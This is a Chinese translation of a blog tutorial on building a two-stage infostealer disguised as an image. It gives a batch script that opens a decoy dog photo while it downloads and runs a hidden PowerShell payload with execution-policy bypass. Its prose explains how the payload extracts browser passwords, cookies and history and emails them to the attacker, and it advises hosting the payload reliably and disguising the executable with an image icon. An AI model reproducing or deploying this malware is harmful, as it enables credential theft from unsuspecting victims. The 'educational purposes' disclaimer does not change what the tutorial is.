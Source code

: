 # 仅凭一张“图片”就能黑掉任何人

> 原文：<https://medium.com/nerd-for-tech/hack-anyone-with-just-an-image-4cb387ba6cb9?source=collection_archive---------0----------------------->

![](img/39029bac895923c76bb7fed33e687d19.png)

几天前，我的朋友向我展示了他制作的脚本，他称之为勒索软件恶意软件，但这是一个批处理脚本，只会将文件的扩展名重命名为任何随机扩展名，只会使该文件对系统未知。当我们单击解密批处理文件时，它会将文件恢复到它们原来的扩展名。总的来说，这个项目非常棒，因为它向我介绍了批量脚本的惊人世界，但我肯定不会把这个脚本称为勒索软件恶意软件。

随着我对批处理脚本世界兴趣的增长，我开始阅读大量关于批处理脚本和如何使用它的博客，很快我偶然发现了这本由 [samratashok](https://github.com/samratashok) 撰写的名为 [nishang](https://github.com/samratashok/nishang) 的超级 shell 脚本指南。

我尝试过构建这个脚本，这个软件在执行时会从受害者那里窃取所有浏览器的 cookies、密码、历史记录和其他有用的数据，并将这些数据发送到您配置的电子邮件地址。随着本教程的深入，我会解释代码是如何工作的。

## 批处理脚本

这是批处理文件的脚本，这是我们想要在受害者 PC 上执行的脚本。

```
pushd %temp%powershell Invoke-WebRequest "https://static.onecms.io/wp-content/uploads/sites/24/2021/04/26/GettyImages-185743593-2000.jpg" -Outfile "doggy.jpg"doggy.jpg powershell Invoke-WebRequest -Uri site hosting your powershell script -OutFile .\power.ps1; start PowerShell -windowstyle hidden -NoProfile -ExecutionPolicy Bypass -file "power.ps1"
```

代码解释:

使用`pushd`,我们将工作目录改为临时目录，这样在目标系统中执行时会留下更少的痕迹。

在第二行中，我们从网上下载了一张狗的图片，并保存在一个名为 doggy.jpg 的输出文件中

然后我们执行下载的图像，欺骗受害者认为这只是一个普通的图像

但是，在第 4 行，我们正在下载我们的原始有效负载 Powershell 脚本，并将其保存在 power.ps1 中，我们稍后将研究这个 PowerShell 脚本将做什么。

最后但同样重要的是，我们使用一些开关执行这个 power.ps1 脚本。

`-Windowstyle hidden`将在隐藏窗口中运行 PowerShell 脚本

`-NoProfile`将在没有任何配置文件的情况下执行脚本，它将忽略并执行脚本，即使它需要管理员权限

`-ExecutionPolicy Bypass`顾名思义，它会绕过任何执行限制(如果设置了的话)

`-file`指定脚本文件的位置

## Powershell 脚本

该脚本托管在 Github [这里](https://github.com/Real0xdom/HWI/blob/main/power.ps1)。这个 Powershell 脚本将做的是从我的[毒液项目](https://github.com/Real0xdom/venom)中下载黑客浏览器软件，黑客浏览器是一些安全研究人员的开源项目，旨在从几乎所有的浏览器中提取保存的密码和数据。这是一个小软件，可以完美地完成这项工作，我已经尝试使用 nirsoft 工具，但他们的最新更新不将密码存储在文本文件中，这就是为什么我决定改用黑客浏览器。

脚本的第二部分是电子邮件，您需要在 PowerShell 脚本中添加电子邮件 Id 和密码，可能是 outlook 帐户。

如果脚本匹配所有的依赖项，它将从几乎所有的浏览器中提取所有的密码和数据，并将其转换为 zip 文件，然后将它发送到脚本中指定的电子邮件地址。

## 托管 PowerShell 脚本

这是一个分为两个阶段的恶意软件第一阶段是当批处理文件在受害者 pc 上执行时，第二阶段是当它需要 PowerShell 脚本进行下一步操作以使我们的攻击成功时。

这就是为什么我们需要在某个地方托管我们的 PowerShell 脚本，现在你可以在你的个人电脑上托管 PowerShell 脚本，但是想象一下受害者在晚上或两三天后点击有效负载的场景，我们不能冒险让我们的脚本在半夜不可用，不是吗？所以我建议你把你的脚本放在一个安全的地方，但它应该是 24/7 可用的。现在 Github 托管是一个选项，但我不建议这样做，所以我会把这部分留给你来决定。

当一切就绪并运行时，在批处理文件中插入 PowerShell 脚本，并将批处理文件转换为可执行文件。在修改了一些选项并把图标改成图片的图标后，你就可以开始了。如果你有任何建议让它变得更隐秘，你可以试试，然后告诉我。

项目:【https://github.com/Real0xdom/HWI 

免责声明:仅将此信息用于教育目的，我不鼓励你做任何傻事！

感谢你的阅读，祝你今天过得愉快。